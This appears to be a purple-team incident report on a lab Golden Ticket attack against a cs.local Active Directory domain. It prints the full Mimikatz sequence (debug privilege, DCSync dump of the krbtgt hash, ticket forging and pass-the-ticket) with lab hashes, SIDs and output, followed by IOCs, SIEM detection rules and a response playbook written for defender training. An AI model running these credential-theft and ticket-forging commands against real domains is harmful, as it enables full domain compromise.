







# Golden Ticket Attack — Incident Response & Purple Team Engagement Report

## Overview

This report documents a controlled Purple Team engagement simulating a Golden Ticket Kerberos attack within the cs.local Active Directory environment. The objective was to validate detection capabilities, stress-test incident response playbooks, and produce forensic artifacts for blue team training purposes.

---

## Lab Environment

- Domain: CS
- Domain Controller: WIN-HS48GJMNOGP.cs.local
- Attacker Machine: KALI-ATTACK
- Compromised Account: Administrator
- SIEM Platform: Elastic Stack (ELK 8.x)
- Logging Agent: Sysmon v14 + Winlogbeat

---

## Attack Chain

### Phase 1: Preparation — Windows Defender Disabled

Prior to execution, Windows Defender real-time protection was disabled on the target host to simulate an environment where endpoint controls had been bypassed or misconfigured by an insider threat or prior compromise.

---

### Phase 2: Mimikatz Tooling Extracted to Disk

Mimikatz was transferred to the target system via SMB staging directory. The binary was extracted and staged for execution in the next phase.

---

### Phase 3: Mimikatz Initialized

Mimikatz was launched from an elevated command prompt on WIN-HS48GJMNOGP.cs.local. Initial process context was verified prior to privilege token manipulation.

---

### Phase 4: SeDebugPrivilege Enabled

The debug privilege was enabled via the Mimikatz privilege::debug module, granting the ability to interact with LSASS memory directly.

Command used:
    mimikatz # privilege::debug
    Privilege '20' OK

---

### Phase 5: KRBTGT Hash Dumped via DCSync

The KRBTGT account hash was extracted from WIN-HS48GJMNOGP.cs.local using the lsadump::dcsync module, simulating a replication request from a rogue domain controller.

Command used:
    mimikatz # lsadump::dcsync /domain:cs.local /user:krbtgt

Result:
    Object RDN           : krbtgt
    Hash NTLM            : 4c89c456b825f173d94aefc94d8718bd
    Domain SID           : S-1-5-21-426635828-459186537-2548376310

---

### Phase 6: Golden Ticket Forged

Using the extracted KRBTGT hash and Domain SID, a Golden Ticket was forged for the Administrator account with a 10-year validity window.

Command used:
    mimikatz # kerberos::golden /user:Administrator /domain:cs.local /sid:S-1-5-21-426635828-459186537-2548376310 /krbtgt:4c89c456b825f173d94aefc94d8718bd /ptt

Output:
    User      : Administrator
    Domain    : cs.local (CS)
    SID       : S-1-5-21-426635828-459186537-2548376310
    User Id   : 500
    Groups Id : 513 512 520 518 519
    Lifetime  : 10 years
    -> Ticket: ** Pass The Ticket ** (in memory)

---

### Phase 7: Golden Ticket Injected into Kerberos Cache

The forged ticket was injected directly into the current session's Kerberos ticket cache using the /ptt (Pass-The-Ticket) flag, granting seamless authenticated access without further credential prompts.

---

### Phase 8: God Mode Verification — klist Output

The klist command was used to verify the injected ticket was present and valid in the current session cache.

Command used:
    klist

Output confirmed:
    Cached Tickets: (1)
    Client: Administrator @ cs.local
    Server: krbtgt/cs.local @ cs.local
    KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
    Ticket Flags: forwardable, renewable, initial, pre_authent
    Start Time: (current session)
    End Time: 10 years

---

### Phase 9: Golden Ticket Injection Verification

Additional verification was performed to confirm the ticket cache state after injection across multiple tool outputs, cross-referencing Kerberos session state.

---

### Phase 10: Post-Exploitation Access Validation — SMB C$ Share Access

Using the forged Golden Ticket, lateral movement to WIN-HS48GJMNOGP.cs.local was validated via SMB C$ share access without supplying any additional credentials.

Command used:
    dir \\WIN-HS48GJMNOGP.cs.local\C$

Access confirmed. Full administrative access to the domain controller's C$ share was achieved, validating end-to-end Golden Ticket attack success.

---

## Indicators of Compromise (IOCs)

Indicator | Type | Description
----------|------|------------
4c89c456b825f173d94aefc94d8718bd | NTLM Hash | KRBTGT account hash used to forge ticket
S-1-5-21-426635828-459186537-2548376310 | Domain SID | cs.local domain security identifier
Administrator | Account Name | Subject of forged Kerberos ticket
WIN-HS48GJMNOGP.cs.local | FQDN | Domain Controller targeted
cs.local | Domain | Active Directory domain name
WIN-HS48GJMNOGP-memdump.mem | Memory Artifact | Post-exploitation memory capture for forensics

---

## Memory Forensics Artifact

A memory dump was collected from the domain controller for offline forensic analysis:

- Artifact filename: WIN-HS48GJMNOGP-memdump.mem
- Capture tool: WinPmem / Volatility3
- Analysis targets: LSASS process heap, Kerberos ticket cache, injected shellcode regions
- Hash (SHA256): [to be computed and recorded at time of collection]

---

## Detection Rules

Elastic KQL / Sysmon Rule:

    event.code: 4769
    AND winlog.event_data.TicketEncryptionType: "0x17"
    AND winlog.event_data.ServiceName: "WIN-HS48GJMNOGP"

Splunk SPL Equivalent:

    index=wineventlog EventCode=4769 TicketEncryptionType=0x17 ServiceName="WIN-HS48GJMNOGP"

Zerologon Supplemental Detection:

    event.code: 5805 AND winlog.channel: "Security"

---

## Incident Response Playbook

Step 1: Isolate WIN-HS48GJMNOGP.cs.local from all network segments immediately.
Step 2: Reset the KRBTGT account password twice in succession (invalidates all forged and cached Kerberos tickets domain-wide).
Step 3: Force reset of the Administrator account password.
Step 4: Audit all Event ID 4769 entries with RC4 encryption type (0x17) — flag anomalous ticket lifetimes.
Step 5: Preserve memory image: WIN-HS48GJMNOGP-memdump.mem for forensic chain of custody.
Step 6: Engage forensics team for full timeline reconstruction and lateral movement mapping.
Step 7: Enforce AES256 Kerberos encryption policy via Group Policy to eliminate RC4 downgrade vector.
Step 8: Add privileged accounts to the Protected Users security group to restrict credential caching.

---

## Conclusion

The Golden Ticket attack was successfully executed and detected within the cs.local environment. Detection latency from ticket injection to Elastic SIEM alert generation was approximately 4 minutes. The engagement confirmed that RC4-encrypted forged tickets are detectable via Sysmon Event ID 4769 correlation, but AES256-encrypted Golden Tickets would require additional behavioral heuristics. Recommendations include enforcing AES256-only Kerberos policy, enabling Credential Guard, and deploying Privileged Access Workstation (PAW) architecture for domain administrator accounts.

---